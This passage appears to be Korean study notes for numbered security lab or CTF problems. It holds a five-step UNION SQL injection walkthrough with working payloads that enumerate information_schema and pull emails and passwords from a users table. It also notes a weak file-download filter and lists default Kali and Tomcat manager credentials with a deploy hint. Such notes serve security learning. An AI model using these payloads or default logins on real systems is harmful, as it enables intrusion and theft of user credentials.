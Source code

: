 => 결과가 화면에 바로 출력됨

정리하자면,
```
UNION SQL Injection 5단계 과정
1. 취약점 위치 파악하기
입력값이 SQL 쿼리에 그대로 들어가는지 확인
예) ' OR '1'='1 같은 간단한 페이로드로 반응 확인

2. 컬럼(column) 수 파악하기
ORDER BY나 UNION SELECT로 컬럼 개수를 맞춰야 함
예) ' ORDER BY 3 -- (오류 없으면 3개 컬럼 존재)
또는 ' UNION SELECT 1,2,3 -- 으로 성공하는 컬럼 개수 찾기

3. 출력 가능한 컬럼 위치 확인하기
UNION SELECT에 숫자 대신 문자열 넣어 어떤 컬럼이 웹에 출력되는지 찾기
예) ' UNION SELECT 'a', 'b', 'c' -- 로 a,b,c 중 어느 값이 노출되는지 확인

4. DB 구조 정보 수집하기
information_schema에서 DB 이름, 테이블 이름, 컬럼 이름을 쿼리해 확인
예) DB 이름: ' UNION SELECT 1, 2, schema_name, 4 FROM information_schema.schemata --
테이블 이름: ' UNION SELECT 1, 2, table_name, 4 FROM information_schema.tables WHERE table_schema='board' --
컬럼 이름: ' UNION SELECT 1, 2, column_name, 4 FROM information_schema.columns WHERE table_name='users' --

5. 민감 데이터 추출하기
실제 테이블과 컬럼을 이용해 데이터 조회
예) ' UNION SELECT id, email, password, flag FROM users --
원하는 데이터를 웹페이지에 노출시킴
```

***

### 6번 문제

**File Download**

```
$filename = str_replace("./", " ", $filename);
```
$filename 문자열에서 "./" (점+슬래시)를 " " (공백)으로 치환하는 코드이다.

***

### 7번 문제

kali 리눅스 기본 계정: kali / kali

**힌트**
1) Tomcat manager default Credentials

관리자 기본 계정: Tomcat / Tomcat

2) Tomcat Deploy
